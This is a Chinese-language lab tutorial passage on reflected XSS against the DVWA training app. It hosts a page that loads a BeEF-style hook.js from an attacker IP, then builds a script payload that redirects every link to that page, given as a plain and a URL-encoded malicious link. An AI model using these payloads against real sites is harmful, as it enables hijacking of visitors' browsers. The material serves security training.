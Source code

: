 - 在网页中打开一个新标签页

- 用来加载我们生成的 hook.js 钩子文件

- 如果在目标网站直接嵌入 hook.js 容易被发现

  

```
systemctl start apache2  # 启动apache

cd /var/www/html

vim a.html #修改a.html的配置
```

a.html里面的内容为：

```
<html>
	<head>
		<script src='http://192.168.81.131:3000/hook.js'></script>
	</head>
	<body>
		<h1>Hello world!</h1>
	</body>
</html>
```

![image-20211223134553027](https://gitee.com/xxb667/img/raw/master/img/image-20211223134553027.png)

### 4.构造payload

```
<script>
	window.onload = function() {
	var link=document.getElementsByTagName("a");
	for(j = 0; j < link.length; j++) {
		link[j].href="http://192.168.81.131/a.html";}
	}
</script>
```

完整的链接为:

```
http://192.168.81.135/DVWA/vulnerabilities/xss_r/?name=<script> 	window.onload = function() { 	var link=document.getElementsByTagName("a"); 	for(j = 0; j < link.length; j++) { 		link[j].href="http://192.168.81.131/a.html";} 	} </script>
```

使用 burpsuite 进行 URL 编码

![image-20211223135236898](https://gitee.com/xxb667/img/raw/master/img/image-20211223135236898.png)

编码后的链接为：

```
http://192.168.81.135/DVWA/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%3e%0a%09%77%69%6e%64%6f%77%2e%6f%6e%6c%6f%61%64%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%09%76%61%72%20%6c%69%6e%6b%3d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%54%61%67%4e%61%6d%65%28%22%61%22%29%3b%0a%09%66%6f%72%28%6a%20%3d%20%30%3b%20%6a%20%3c%20%6c%69%6e%6b%2e%6c%65%6e%67%74%68%3b%20%6a%2b%2b%29%20%7b%0a%09%09%6c%69%6e%6b%5b%6a%5d%2e%68%72%65%66%3d%22%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%38%31%2e%31%33%31%2f%61%2e%68%74%6d%6c%22%3b%7d%0a%09%7d%0a%3c%2f%73%63%72%69%70%74%3e
```
